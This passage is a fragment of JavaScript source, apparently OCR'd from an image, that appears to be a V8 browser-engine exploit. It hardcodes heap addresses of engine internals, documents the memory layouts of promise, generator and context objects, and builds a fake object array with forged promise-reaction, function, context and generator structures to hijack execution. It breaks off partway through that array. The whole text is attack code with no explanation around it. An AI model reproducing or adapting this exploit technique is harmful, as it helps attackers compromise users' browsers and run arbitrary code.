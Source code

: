 ```javascript=
let builtinResolveFunc = 0x4B2E9
let awaitResolveClosure = 0x1841fd
let JSFunctionMap = 0x184189
let AsyncFunctionAwaitResolveClosureCode = 0x294a5
let AsyncFunctionAwaitResolveClosureCodeIndex = 0x10f5001
let undefinedAddr = 0x61
let mapScriptContext = 0x19209d
let fixedArrayMap = 0x00000565
// JSPromise: map| properties
//          : elements|result_reactions
//          : status

// reactions: map | next
//          :   reject  | fulfill
//          : promise_or_capability

// JSGeneratorObject: map | properties
//                  : elements | jsfunc
//                  : context  | receiver
//                  input_or_debug_pos | resume_mode
//                  : continuation | parameters_and_registers

// fulfill:code 0xc

// generator:continue 0x20
// generator:func 0xc
// generator:receiver 0x14


// JSFunction:context 0x14

// Context: map | len
//        : scope_info | previous -> arr[0], arr[1]
//        : extension arr[2]

// enum Field {
//     // TODO(shell): use offset-based approach for accessing common values.
//     // These slots are in all contexts.
//     SCOPE_INFO_INDEX,
//     PREVIOUS_INDEX,

//     // This slot only exists if ScopeInfo::HasContextExtensionSlot returns true.
//     EXTENSION_INDEX,


let fakeObjArrEle = 0x20c455 + 8
let fooAddr = 0x19ABFD
// let fakeObjArrEle = 0x30680d + 8
// let fooAddr = 0x19A77d

var fakeObjArr = [pair_32_to_f(packDoubleArrMap, emptyFixedArray),
                  pair_32_to_f(fakeObjArrEle + 0x20, 0x222),// elements and length
                  pair_32_to_f(reactionMap, 0),// reaction
                  pair_32_to_f(0x61, fakeObjArrEle + 0x20),// fake fulfill
                                                            // |
                                                            // v
                pair_32_to_f(JSFunctionMap, emptyFixedArray), // fake AsyncFunctionAwaitResolve
                pair_32_to_f(emptyFixedArray, AsyncFunctionAwaitResolveClosureCodeIndex),
                pair_32_to_f(0x41414141, fakeObjArrEle + 0x38), // context

                pair_32_to_f(mapScriptContext, 0x10), // fake context
                pair_32_to_f(0x41414141, 0x41414141),
                pair_32_to_f(fakeObjArrEle + 0x50, 0x41414141), // generator
```